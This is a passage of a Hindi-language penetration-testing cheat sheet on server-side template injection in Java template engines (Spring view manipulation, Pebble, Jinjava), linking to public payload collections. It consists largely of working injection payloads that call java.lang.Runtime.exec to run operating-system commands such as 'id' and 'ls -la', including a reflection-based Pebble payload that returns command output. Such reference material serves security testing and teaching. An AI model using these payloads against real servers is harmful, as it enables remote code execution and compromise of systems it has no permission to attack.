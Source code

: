 * [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)

### स्प्रिंग व्यू मैनिपुलेशन (जावा)
```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
* [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Pebble (Java)

* `{{ someString.toUPPERCASE() }}`

Pebble का पुराना संस्करण ( < संस्करण 3.0.9):
```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
नई संस्करण Pebble :
```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}





{% set bytes = (1).TYPE
.forName('java.lang.Runtime')
.methods[6]
.invoke(null,null)
.exec(cmd)
.inputStream
.readAllBytes() %}
{{ (1).TYPE
.forName('java.lang.String')
.constructors[0]
.newInstance(([bytes]).toArray()) }}
```
### जिनजावा (Java)
```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
Jinjava एक ओपन सोर्स प्रोजेक्ट है जिसे Hubspot द्वारा विकसित किया गया है, जो [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/) पर उपलब्ध है।
